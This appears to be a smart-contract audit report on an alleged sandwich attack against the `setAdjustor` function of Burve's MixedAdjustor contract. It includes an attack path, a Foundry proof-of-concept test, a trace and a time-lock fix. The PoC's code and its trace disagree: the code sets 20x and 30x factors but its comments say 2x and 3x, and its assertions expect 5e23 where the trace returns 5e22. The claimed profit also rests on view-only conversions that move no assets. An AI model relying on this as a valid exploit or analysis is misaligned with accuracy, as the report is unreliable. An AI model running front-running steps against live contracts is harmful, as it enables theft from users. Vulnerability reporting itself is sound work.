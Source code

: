 Elegant Amethyst Antelope

High

# Race Condition in MixedAdjustor Contract Allows Exploitation of Adjustor Changes

### Summary

The lack of a time-lock or atomic locking mechanism in the `setAdjustor` function of `MixedAdjustor.sol` will cause a significant financial loss for the protocol and its users as an attacker will sandwich the owner's adjustor change transaction to exploit scaling factor differences for profit.

https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/integrations/adjustor/MixedAdjustor.sol#L23C5-L26C6

### Root Cause

In `MixedAdjustor.sol`, the `setAdjustor` function updates the `adjAddr[token]` mapping instantly without a delay or locking mechanism, allowing an attacker to exploit changes in the adjustor’s scaling factor within the same block. This design choice to permit immediate state changes is a mistake, as it enables a race condition where an attacker can front-run or back-run the adjustor update to perform conversions (toReal → toNominal) with inconsistent scaling factors, extracting extra nominal value.

### Internal Pre-conditions

The owner needs to call `setAdjustor(token, newAdjustor)` to set adjAddr[token] to a new adjustor with a higher scaling factor (e.g., from 2x to 3x scaling).

The initial adjustor `(adjAddr[token]) `needs to have a valid scaling factor (e.g., adjsX128[token] = 2 * 2^128 for 2x scaling).

The new adjustor needs to have a different scaling factor (e.g., adjsX128[token] = 3 * 2^128 for 3x scaling) that is higher than the initial adjustor’s.

The protocol needs to have sufficient nominal value (e.g., at least 1000000e18 in tokens) available for conversion to make the attack profitable.

### External Pre-conditions

The blockchain mempool needs to allow the attacker to observe and front-run the owner’s `setAdjustor` transaction (a common scenario in public blockchains like Ethereum).

The gas price needs to be feasible for the attacker to submit transactions that are included in the same block as the owner’s setAdjustor call (e.g., gas price not excessively high, typically 10-100 gwei).

### Attack Path

The attacker monitors the mempool for an owner’s `setAdjustor(token, newAdjustor)` transaction that changes the adjustor for tokenA from an adjustor with 2x scaling (adjustorA) to one with 3x scaling (adjustorB).

The attacker front-runs the owner’s transaction by calling` toReal(tokenA, 1000000e18, true)` on `MixedAdjustor`, using adjustorA’s 2x scaling, converting 1000000e18 nominal to 1000000e18 / 2 = 500000e18 real.

The owner’s `setAdjustor(tokenA, adjustorB`) transaction is executed, updating adjAddr[tokenA] to adjustorB with 3x scaling.

The attacker back-runs by calling` toNominal(tokenA, 500000e18, false)` on MixedAdjustor, using adjustorB’s 3x scaling, converting 500000e18 real back to 500000e18 * 3 = 1500000e18 nominal.

The attacker nets a profit of 1500000e18 - 1000000e18 = 500000e18 nominal value, which can be used in the protocol (e.g., as collateral, liquidity, or swapped for other assets).

### Impact

The protocol and its users suffer an approximate loss of 50% of the nominal value processed during the attack (e.g., 500000e18 tokens for a 1000000e18 input). The attacker gains this 50% nominal value (e.g., 500000e18 tokens), which could translate to significant financial value depending on the token’s market price.

### PoC

this test confirms the issue
```solidity
function testRaceConditionDuringAdjustorReplacement() public {
        vm.startPrank(owner);
        
        // Deploy two adjustors with different scaling factors
        FixedAdjustor adjustorA = new FixedAdjustor();
        FixedAdjustor adjustorB = new FixedAdjustor();
        adjustorA.setAdjustment(tokenA, uint256(20 << 128)); // 2x scaling
        adjustorB.setAdjustment(tokenA, uint256(30 << 128)); // 3x scaling
        
        // Set initial adjustor
        adj.setAdjustor(tokenA, address(adjustorA));
        vm.stopPrank();

        // Prepare a large amount for the attack
        uint256 largeAmount = 1000000e18;
        
        // Simulate a sandwich attack scenario
        vm.startPrank(attacker);
        
        // Step 1: Call toReal with adjustorA's scaling
        uint256 realAmount = adj.toReal(tokenA, largeAmount, true);
        assertEq(realAmount, 500000e18, "Should apply 2x scaling (divide by 2)");
        
        // Step 2: Owner changes adjustor
        vm.startPrank(owner);
        adj.setAdjustor(tokenA, address(adjustorB));
        vm.stopPrank();
        
        // Step 3: Call toNominal with adjustorB's scaling
        vm.startPrank(attacker);
        uint256 nominalAmount = adj.toNominal(tokenA, realAmount, false);
        assertEq(nominalAmount, 1500000e18, "Should apply 3x scaling (multiply by 3)");
        
        // Verify the exploit: attacker gains extra nominal value
        assertGt(nominalAmount, largeAmount, "Attack successful - scaling mismatch exploited");
        assertEq(nominalAmount - largeAmount, 500000e18, "Attacker gains 50% extra nominal value");
        
        vm.stopPrank();
    }


```


and the results


```solidity



Ran 1 test suite in 18.50ms (2.44ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)


No files changed, compilation skipped

Ran 1 test for test/integrations/adjustor/MixedAdjustor.t.sol:MixedAdjustorTest
[PASS] testRaceConditionDuringAdjustorReplacement() (gas: 702248)
Traces:
  [702248] MixedAdjustorTest::testRaceConditionDuringAdjustorReplacement()
    ├─ [0] VM::startPrank(owner: [0x7c8999dC9a822c1f0Df42023113EDB4FDd543266])
    │   └─ ← [Return] 
    ├─ [248905] → new FixedAdjustor@0x72cC13426cAfD2375FFABE56498437927805d3d2
    │   └─ ← [Return] 1132 bytes of code
    ├─ [248905] → new FixedAdjustor@0x98B3c60ADE6A87b229Aa7d91ad27c227d54d95C0
    │   └─ ← [Return] 1132 bytes of code
    ├─ [45221] FixedAdjustor::setAdjustment(tokenA: [0x106EABe0298ec286Adf962994f0Dcf250c4BB763], 6805647338418769269267492148635364229120 [6.805e39])
    │   └─ ← [Return] 
    ├─ [45221] FixedAdjustor::setAdjustment(tokenA: [0x106EABe0298ec286Adf962994f0Dcf250c4BB763], 10208471007628153903901238222953046343680 [1.02e40])
    │   └─ ← [Return] 
    ├─ [24772] MixedAdjustor::setAdjustor(tokenA: [0x106EABe0298ec286Adf962994f0Dcf250c4BB763], FixedAdjustor: [0x72cC13426cAfD2375FFABE56498437927805d3d2])
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000Bad)
    │   └─ ← [Return] 
    ├─ [1688] MixedAdjustor::toReal(tokenA: [0x106EABe0298ec286Adf962994f0Dcf250c4BB763], 1000000000000000000000000 [1e24], true) [staticcall]
    │   ├─ [658] FixedAdjustor::toReal(tokenA: [0x106EABe0298ec286Adf962994f0Dcf250c4BB763], 1000000000000000000000000 [1e24], true) [staticcall]
    │   │   └─ ← [Return] 50000000000000000000000 [5e22]
    │   └─ ← [Return] 50000000000000000000000 [5e22]
    ├─ [0] VM::startPrank(owner: [0x7c8999dC9a822c1f0Df42023113EDB4FDd543266])
    │   └─ ← [Return] 
    ├─ [872] MixedAdjustor::setAdjustor(tokenA: [0x106EABe0298ec286Adf962994f0Dcf250c4BB763], FixedAdjustor: [0x98B3c60ADE6A87b229Aa7d91ad27c227d54d95C0])
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000Bad)
    │   └─ ← [Return] 
    ├─ [1922] MixedAdjustor::toNominal(tokenA: [0x106EABe0298ec286Adf962994f0Dcf250c4BB763], 50000000000000000000000 [5e22], false) [staticcall]
    │   ├─ [760] FixedAdjustor::toNominal(tokenA: [0x106EABe0298ec286Adf962994f0Dcf250c4BB763], 50000000000000000000000 [5e22], false) [staticcall]
    │   │   └─ ← [Return] 1500000000000000000000000 [1.5e24]
    │   └─ ← [Return] 1500000000000000000000000 [1.5e24]
    ├─ [0] VM::assertGt(1500000000000000000000000 [1.5e24], 1000000000000000000000000 [1e24], "Attack successful - scaling mismatch exploited") [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    └─ ← [Return] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.28ms (1.11ms CPU time)

Ran 1 test suite in 1.21s (3.28ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)


```

### Mitigation

To mitigate this vulnerability, implement a time-lock mechanism for adjustor changes to prevent sandwich attacks.
